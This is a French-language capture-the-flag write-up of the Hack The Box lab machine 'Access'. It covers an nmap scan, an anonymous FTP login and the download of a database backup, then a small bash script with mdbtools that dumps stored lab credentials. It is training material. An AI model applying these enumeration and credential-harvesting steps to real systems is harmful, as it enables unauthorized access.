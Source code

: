# Access writeups by Seyptoo.

[![forthebadge made-with-python](https://image.noelshack.com/fichiers/2019/09/6/1551530466-capture-du-2019-03-02-13-40-56.png)](https://image.noelshack.com/fichiers/2019/09/6/1551530466-capture-du-2019-03-02-13-40-56.png)

Informations
----
    Ip : 10.10.10.98       Created by : egre55
    Level : Very easy            Base Points : 20
    
Scan Nmap
----
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     Microsoft ftpd
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    |_Can't get directory listing: TIMEOUT
    23/tcp open  telnet?
    80/tcp open  http    Microsoft IIS httpd 7.5
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/7.5
    |_http-title: MegaCorp
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
 Après avoir effectué le scan, nous avons 3 ports ouverts, le (21) pour le FTP, le (23) pour le telnet, et le (80) pour le httpd. Le FTP peut être accéder en tant que anonymous donc nous allons essayer d'énumérer.
 
FTP Enumeration
----
Pour la connexion au serveur FTP, l'utilisateur et le mot de passe 'anonymous:anonymous'.

    root@Computer:~/htb/writeup/Access# ftp 10.10.10.98
    Connected to 10.10.10.98.
    220 Microsoft FTP Service
    Name (10.10.10.98:root): anonymous
    331 Anonymous access allowed, send identity (e-mail name) as password.
    Password:
    230 User logged in.
    Remote system type is Windows_NT.
    ftp>
 
 La connexion c'est déroulais avec succès donc essayons de lister les fichiers dans le dossier.

    ftp> ls
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    08-23-18  08:16PM       <DIR>          Backups
    08-24-18  09:00PM       <DIR>          Engineer
    226 Transfer complete.
    ftp>
    
Comme vous pouvez le voir, il y'a un dossiers Backups et un dossier Engineer. Dans le dossier Backups il y'a un fichier mdb, pour les bases de données, et dans le dossier Engineer il y'a un fichier zip. Donc nous allons transférer c'est fichiers vers notre machine physique avec la commande **mget [file]**, avant de transférer nous devons passer de ASCII à BINAIRE.

    ftp> ls
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    08-23-18  08:16PM              5652480 backup.mdb
    226 Transfer complete.
    ftp> binary
    200 Type set to I.
    ftp> mget backup.mdb
    mget backup.mdb? y
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    226 Transfer complete.
    5652480 bytes received in 7.70 secs (716.7322 kB/s)
    ftp> cd ..
    250 CWD command successful.
    ftp> cd Engineer
    250 CWD command successful.
    ftp> ls
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    08-24-18  12:16AM                10870 Access Control.zip
    226 Transfer complete.
    ftp> mget "Access Control.zip"
    mget Access Control.zip? y
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    226 Transfer complete.
    10870 bytes received in 0.83 secs (12.7677 kB/s)
    ftp> 

Voilà les fichiers ont été transférer avec succès, sans aucun problème donc nous pouvons quitter le serveur FTP. Et d'énumérer c'est fichiers.

Enumeration MDB
----
Nous allons installer un petit programme pour dump tout ça. Vous devez installé le paquet **mdbtools** avec apt, vous pouvez aussi également utilisé la version GUI avec **mdbtools-gmdb2**.

Pour voir les tables utilisé la commande :

    root@Computer:~/htb/writeup/Access# mdb-tables -1 backup.mdb
    [...SNIP...]
    auth_user
    [...SNIP...]
    
J'ai créer un petit script en bash pour automatisé tout ça, et de chopper les mots de passes plus facilement grâce à mon petit script en bash.

    #!/bin/sh

    name_file=$1
    # This variable will be the file.

    for tables_names in $(mdb-tables -1 $name_file)
    do
      ExportCommand=("mdb-export $name_file $tables_names")
      # Will execute the command.
      if [ "$ExportCommand" != '' ]; then
        $ExportCommand|grep ,26,
      fi
    done
    
Et la sortie du fichier :

    root@Computer:~/htb/writeup/Access# bash server.sh backup.mdb 
    25,"admin","admin",1,"08/23/18 21:11:47",26,
    27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
    28,"backup_admin","admin",1,"08/23/18 21:14:02",26,
    root@Computer:~/htb/writeup/Access#

Parfait nous avons des identifiants, alors si vous souhaitez utilisé mon outils n'oublie pas de mettre le nom du fichier.
**bash server.sh backup.mdb **
